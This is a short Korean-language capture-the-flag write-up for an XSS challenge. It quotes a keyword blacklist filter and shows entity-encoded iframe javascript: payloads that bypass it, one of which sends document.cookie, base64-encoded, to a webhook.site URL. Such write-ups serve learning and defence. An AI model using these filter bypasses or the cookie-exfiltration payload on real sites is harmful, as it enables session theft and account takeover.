



## 2. XSS-2

```python
def content_filter(c):
    c = c.lower()
    vulns = ["javascript", "script", "on", "data", "base", "(", ")", "'"]
    vulns += [chr(x) for x in range(0x20)]
    return any(v in c for v in vulns)
```

app.py를 살펴보니 특정 단어들이 필터링 된다는 사실을 알 수 있었고 이를 우회한 스크립트를 넣어보았다.

```html
<iframe src="javas&#x63;ript:alert&#x28;1&#x29;"> </iframe>
```



alert구문이 정상적으로 작동함을 알 수 있었다

```html
<iframe src="javas&#x63;ript:fetch&#x28;&#x27;https://webhook.site/81193856-a8a7-4116-bc58-e601f0796d51/?flag=&#x27;&#x2b;btoa&#x28;document.cookie&#x29;&#x29;"></iframe>
```

위와 같이 페이로드를 짜게 되면 아래와 같은 결과를 얻을 수 있다.



base 64 인코딩된 상태이므로 이를 디코딩하게 되면 flag를 획득할 수 있다.


